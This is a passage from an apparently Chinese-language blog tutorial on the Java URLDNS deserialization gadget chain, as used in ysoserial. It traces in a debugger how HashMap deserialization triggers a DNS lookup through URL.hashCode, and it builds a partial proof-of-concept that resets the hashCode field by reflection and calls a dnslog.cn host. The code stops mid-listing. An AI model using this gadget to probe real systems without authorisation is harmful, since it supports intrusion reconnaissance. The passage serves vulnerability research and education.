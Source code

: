 ![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304181613961.png)
查看dns平台，反序列化直接请求到dnslog平台上
![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304181612640.png)

跟一下反序列化过程，设置断点，调试。

![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304181613899.png)



HashMap获取了key和value，调用了hash方法

![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304181612063.png)



跟进去，发现调用了key.hashCode方法

![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304181612702.png)

继续跟来到了URL类的hashCode方法因为传的key是URL类，hashCode的值为-1

![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304181612420.png)

进入了handler.hashCode方法

![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304181613372.png)

进入了hashCode.getHostAddress，使用InetAddress.getByName(host);，发送DNSLOG请求。

![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304181613818.png)

## POC构造

根据分析，触发的关键是HashMap的put方法，故下面的代码是必须的

```java
HashMap ht = new HashMap();
ht.put(url,"RRR");
```

因为ht.put需要传入URL的实例，new一个，因为URL是可序列化的，不用反射获取

```java
URL url = new URL("http://64hu68.dnslog.cn");
```

根据上面的分析，必须要将这个URL 实例中的，hashCode的值变为-1，通过反射获取变量更改

```java
Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
f.setAccessible(true);
f.set(url, -1);
```

综上，组合起来完整的poc

```java
package ysoserial;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws Exception{
        URL url = new URL("http://64hu68.dnslog.cn");
        HashMap ht = new HashMap();
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true);
```